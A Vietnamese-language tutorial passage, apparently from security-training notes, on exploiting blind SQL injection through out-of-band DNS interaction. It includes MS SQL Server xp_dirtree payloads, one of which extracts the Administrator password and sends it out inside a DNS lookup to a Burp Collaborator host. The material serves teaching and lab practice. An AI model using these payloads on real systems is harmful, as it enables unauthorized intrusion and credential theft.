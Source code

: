 # Exploiting blind SQL injection using out-of-band (OAST) techniques

Một ứng dụng có thể thực hiện cùng một truy vấn SQL như ví dụ trước nhưng theo cách bất đồng bộ. Ứng dụng tiếp tục xử lý yêu cầu của người dùng trong luồng ban đầu và sử dụng một luồng khác để thực thi truy vấn SQL bằng tracking cookie.

Truy vấn vẫn có lỗ hổng SQL Injection, nhưng tất cả các kỹ thuật đã đề cập trước đó đều không hiệu quả. Lý do là vì phản hồi của ứng dụng không phụ thuộc vào việc truy vấn có trả về dữ liệu, có lỗi xảy ra, hoặc thời gian thực thi truy vấn.

Trong tình huống này, có thể khai thác SQL Injection mù bằng cách kích hoạt tương tác mạng out-of-band tới một hệ thống do mình kiểm soát. Những tương tác này có thể được kích hoạt dựa trên một điều kiện tiêm vào truy vấn, từ đó suy ra từng phần thông tin. Quan trọng hơn, dữ liệu có thể được rò rỉ trực tiếp trong quá trình này.

Nhiều giao thức mạng có thể được sử dụng cho mục đích này, nhưng giao thức hiệu quả nhất thường là DNS (Domain Name Service). Hầu hết các hệ thống trong môi trường sản xuất đều cho phép thoát lưu lượng DNS, vì nó là cần thiết cho hoạt động bình thường của hệ thống.

# Exploiting blind SQL injection using out-of-band (OAST) techniques - Continued

Công cụ đơn giản và đáng tin cậy nhất để sử dụng kỹ thuật out-of-band là Burp Collaborator. Đây là một máy chủ cung cấp các dịch vụ mạng tùy chỉnh, bao gồm DNS, giúp phát hiện khi có tương tác mạng xảy ra do tải trọng (payload) được gửi tới một ứng dụng dễ bị tấn công.

**Kích hoạt truy vấn DNS dựa trên loại cơ sở dữ liệu**

Cách kích hoạt truy vấn DNS phụ thuộc vào loại cơ sở dữ liệu đang sử dụng. Ví dụ, trên Microsoft SQL Server, có thể thực hiện bằng cách sử dụng payload sau:

    '; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
Lệnh trên buộc cơ sở dữ liệu thực hiện truy vấn DNS đến miền sau:

    0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

# Lab: Blind SQL injection with out-of-band interaction

# Exploiting blind SQL injection using out-of-band (OAST) techniques - Continued

Sau khi xác nhận rằng có thể kích hoạt tương tác ngoài băng tần (OAST), có thể sử dụng kênh này để trích xuất dữ liệu từ ứng dụng bị tấn công. Ví dụ:

    '; declare @p varchar(1024);
    set @p=(SELECT password FROM users WHERE username='Administrator');
    exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--

Giải thích truy vấn
- Bước 1: Truy vấn mật khẩu của user "Administrator".
- Bước 2: Ghép mật khẩu với một subdomain Collaborator duy nhất.
- Bước 3: Kích hoạt truy vấn DNS đến burpcollaborator.net, chứa giá trị mật khẩu trong tên miền.

Ví dụ kết quả nhận được: 

Nếu mật khẩu của user "Administrator" là S3cure, máy chủ sẽ gửi truy vấn DNS như sau:

    S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

**Lưu ý**: Có nhiều cách khác nhau để kích hoạt tương tác OAST, tùy vào từng loại cơ sở dữ liệu.


